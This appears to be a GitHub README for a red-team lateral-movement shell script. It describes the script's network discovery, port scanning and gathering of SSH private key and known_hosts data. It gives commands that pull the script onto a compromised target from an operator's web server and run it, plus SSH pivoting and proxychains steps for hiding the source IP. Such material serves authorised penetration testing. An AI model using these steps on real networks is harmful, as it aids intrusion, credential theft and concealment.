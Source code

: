# Lateral Movement Phase

Lateral Movement is about the ability to move around the network. It is possible that the actual target cannot be reached from or on the initially compromised host. In this case, access must be gained to one or more remote systems. To do this, the network must be explored. Similar to Internal Reconnaissance, information is gathered here, but about the current network and surrounding systems.

This script serves as a tool for receiving some information that may be important for Lateral Movement.

## Features

- Get network neighbours (from arp table)
- Get reachable IP addresses
- Port scan of a given IP address
- Get SSH information about private keys and known hosts

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/lateral-movement/lateral-movement.sh
sh lateral-movement.sh -h
```
Local network:
```sh
# Host
sh lateral-movement.sh -w
# Target
curl -LJO <Host>:8000/
sh lateral-movement.sh -h
```

### Parameters

```sh
sh lateral-movement.sh -h

Usage: lateral-movement.sh [options]

Options:
-h               Show this help message
-p <IP address>  Do a port scan of the given IP address
-w               Serves an local web server for transferring files

Output:
-c               No colours. Without colours, the output can probably be read better
-q               Quiet. No banner and no advisory displayed
```

## Results

Results saved to files in current directory and printed to stdout.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Additional Information

### Pivoting and Proxychains

Pivoting can be described as a method or technique that allows an already compromised system (also called a "plant" or "foothold") to be used to move into other systems on the same network. This can be used to bypass restrictions on a network (a firewall, for example).

#### Pivoting with SSH
Local forwarding: make a port of the target locally reachable:
````sh
ssh -L <local port>:<remote host>:<remote port> [<jumphost>]
````
Remote forwarding: Make a local port externally accessible:
````sh
ssh -R <remote port>:<localhost>:<local port> [<jumphost>]
````
Dynamic forwarding: Make all ports of the target locally accessible as SOCKS proxy:
````sh
ssh -D <local port> <jump host>
````

#### ProxyChains

Proxychains is a tool that forces any TCP connection of any application through one or more proxy servers (for example SOCKS4/5 or HTTP(S) proxy).  
With proxychains and port forwarding, it is possible to forward a connection through device B to device C.

````sh
# syntax:
proxychains <application> <argument>

# example:
proxychains nmap -sS 10.0.2.16 -p 80
````
The nmap scan is routed through the proxy servers defined in the configuration file.

ProxyChains configuration file: /etc/proxychains.conf
````sh
# syntax:
<typ> <IP> <port> <user> <password>
# examples:
socks4 127.0.0.1 9000
socks5 192.168.89.45 4567 user pass
````

Thus it is possible to disguise the source IP, as the destination will only receive the IP of the last proxy as source.
